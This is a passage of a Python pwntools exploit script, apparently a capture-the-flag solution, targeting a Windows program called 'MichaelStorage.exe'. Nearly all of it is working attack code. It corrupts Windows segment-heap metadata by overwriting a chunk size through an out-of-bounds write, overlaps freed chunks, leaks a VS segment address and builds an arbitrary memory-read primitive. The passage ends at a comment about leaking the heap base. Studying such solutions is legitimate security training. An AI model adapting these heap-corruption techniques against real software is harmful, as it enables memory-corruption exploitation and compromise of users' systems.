 ```python
	p.sendline(str(storage_idx))
	if chunk_type == 3:
		p.recvuntil("Size:")
		p.sendline(str(idx))
		p.recvuntil("Value:")
		p.sendline(data)
	else:
		p.recvuntil("Index:")
		p.sendline(str(idx))
		p.recvuntil(":")
		p.sendline(str(data))
        

context.log_level ="debug"
context.arch = "amd64"

p = process("./MichaelStorage.exe")

#windbgx.attach(p)#, script="ba 00007ff6`aa6d1ca7")
# 00007ff6`aa6d0000

alloc(0,0x8000) # int 0
alloc(1,0x1337) # secret 1
alloc(0,0x8000) # int 2

alloc(3,0x20000-1) # str 3 (overlap chunk)
alloc(0, 0x3bd0) #int 4 
alloc(0,0x8000) # int 5

# 0x1f017900000 : _HEAP_PAGE_SEGMENT -> Segment base
# segment base + 0x23050 : chunk 2(secret storage)
# segment base + 34010 : chunk 3(int storage)
secret_off = 0x23050
int_1_size_off = 0x2010
target_seg_desc_off = 0x698

setvalue(1,1, -((secret_off-target_seg_desc_off)/8)-1,0x4204ffbd00000103) # overwrite size type 1 0x21->0x42
destory(2) # free 0x42 
alloc(0,0x8000) # int 2 (realloc)
alloc(3,0x200) # str 6
alloc(1,0xbeef) # secret 7


setvalue(3, 3, 0x40+1, "a"*0x40)
currupt_size_off = -0x4b
currupt_ptr_off = -0x4a
setvalue(7,1,currupt_size_off,0x6161616161616161)

getvalue(3)
p.recvuntil("a"*0x48)
vs_segment = u64(p.recvuntil("\r\n")[:-2].ljust(8,"\x00")) - 0x80
print("vs_segment:",hex(vs_segment))

setvalue(7,1,currupt_size_off,0x200)

def readmem(addr):
    setvalue(7,1,currupt_ptr_off,addr)
    getvalue(6)
    p.recvuntil("Value:")
    return u64(p.recvuntil("\r\n")[:-2].ljust(8, "\x00")[:8])

# leak haep base
```